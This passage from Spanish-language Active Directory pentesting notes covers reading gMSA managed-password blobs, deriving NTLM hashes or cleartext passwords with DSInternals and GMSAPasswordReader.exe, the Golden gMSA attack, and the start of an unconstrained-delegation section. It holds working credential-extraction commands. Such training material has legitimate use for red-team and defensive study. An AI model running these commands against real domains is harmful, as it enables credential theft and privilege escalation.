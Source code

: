 - El atributo 'msDS-GroupMSAMembership' (PrincipalsAllowedToRetrieveManagedPassword) lista los principales que pueden leer el blob de contraseñas.
- Léalo utilizando ADModule:

```
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

- El atributo 'msDS-ManagedPassword' almacena el blob de contraseñas en forma binaria de MSDS-MANAGEDPASSWORD_BLOB.
- Una vez que hemos comprometido un principal que puede leer el blob. Usa ADModule para leer y DSInternals para calcular el hash NTLM:

```
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'

Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1

$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob

ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

- El atributo 'CurrentPassword' de $decodedpwd contiene la contraseña en texto claro, pero no se puede escribir.

- Para obtener la pass en texto claro se puede usar la herramienta ``GMSAPasswordReader.exe``:

```
GMSAPasswordReader.exe --accountname jumpone
```
### Golden gMSA

- La contraseña gMSA se calcula aprovechando el secreto almacenado en el objeto clave raíz KDS.
- Se necesitan algunos atributos de la clave raíz KDS para calcular el Group Key Envelope (GKE). Una vez calculada la GKE para la clave raíz KDS asociada, podemos generar la contraseña sin conexión.
- Sólo las cuentas privilegiadas como Domain Admins, Enterprise Admins o SYSTEM pueden recuperar la clave raíz KDS.
- [gMSA Active Directory Attacks](https://www.semperis.com/blog/golden-gmsa-attack/)

# Domain Privilege Escalation
## Kerberos Delegation - Unconstrained Delegation

- Cuando configuras con Unconstrained Delegation en un servicio, los clientes delegan/envian su TGT al servidor.
- El servicio puede actuar en nombre de un usuario o equipo en la red usando el TGT.
- Para configurar esto, se necesitan permisos de Domain o Enterprise Admin, en particular, ``SeEnableDelegation``.
#### Enumeración

- Ten en cuenta que pueden haber usuarios o equipos con la propiedad ``unconstrained delegation``

